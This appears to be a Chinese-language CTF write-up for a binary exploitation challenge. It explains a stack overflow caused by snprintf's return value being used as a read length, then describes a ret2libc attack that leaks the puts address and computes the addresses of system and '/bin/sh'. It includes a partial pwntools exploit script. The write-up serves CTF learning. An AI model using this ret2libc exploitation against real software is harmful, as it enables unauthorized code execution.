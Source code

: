 ```c
  if ( v2 == 89 )
    read(0, &s, nbytes);
  return printf("name : %s\noccupation : %s\nintroduce : %s\n", byte_804A180, byte_804A080, &s);
}
```

注意到倒数第三行的 `read` 第三个参数（读入的长度）是变量，而这个变量的值又由上面的 `snprintf` 的返回值决定。查手册得知 `snprintf` 的返回值是“假设第二个参数足够大时将会写入的字符数，不计结束符”（"The number of characters that would have been written if n had been sufficiently large, not counting the terminating *null character*. "）。就是说返回值并不是*实际*写入的字符数，而是*本来应该*写入的字符数。又因为格式字符串的长度受到用户输入的控制，我们可以往缓冲区 `s` 中写入超过其大小的数据，造成栈溢出。只要在输入 name 和 occupation 时各输入 255 字节的数据就能利用漏洞覆盖返回地址，用 GDB 很容易确定溢出点偏移是 277。

接下来问题是返回到哪里，程序本身没有 `system` 函数，也没有 `/bin/sh` 字符串，考虑泄露 libc 中的函数地址。程序里有 `puts`，利用它先泄露一个 `puts` 的地址（返回到 `puts`，把 `puts` 的 GOT 地址放在栈上作为参数传入），再去 libc-database 里查服务器的 libc 版本。查到后就可以计算出 `system` 函数的地址和 `/bin/sh` 字符串的地址。这里需要在泄露 `puts` 地址之后返回到 `main` 函数再次触发栈溢出，这次才返回到 `system`（因为第一次的时候还不知道 `system` 的地址，泄露完之后才能计算出）。Exp 如下：

```python
from pwn import *

context.log_level='debug'
p = process('./pwn2')
#p = remote('123.59.138.180','20000')
elf = ELF('./pwn2')
libc = ELF('./libc.so')

puts_plt = elf.plt['puts']
read_plt = elf.plt['read']
puts_got = elf.got['puts']

print "puts_plt: "+hex(puts_plt)
print "read_plt: "+hex(read_plt)
print "puts_got: "+hex(puts_got)

main_add = 0x080485cb
poc = 'A'*277+p32(puts_plt)+p32(main_add)+p32(puts_got)

def pwning(i):
	p.recvuntil('name?')
	p.sendline('A'*255)
	p.recvuntil('N]')
	p.sendline('Y')
	p.send(poc)
	p.recvuntil('duce : ')
	if(i==1):
		p.recvn(277+13)
	else:
		p.recvn(277)

pwning(1)
puts_addr = u32(p.recv(4))
print 'puts_add: ' + hex(puts_addr)

libc = ELF('./libc.so')
binsh = next(libc.search('/bin/sh'))
sys_off = libc.symbols['system']
puts_off = libc.symbols['puts']
off = sys_off - puts_off
off2 = binsh - puts_off

print 'sys_off: ' + hex(sys_off)
print 'puts_off: ' + hex(puts_off)
print 'off: ' + hex(puts_addr+off)
print 'binsh: ' + p32(binsh).ljust(4,'\x00')
```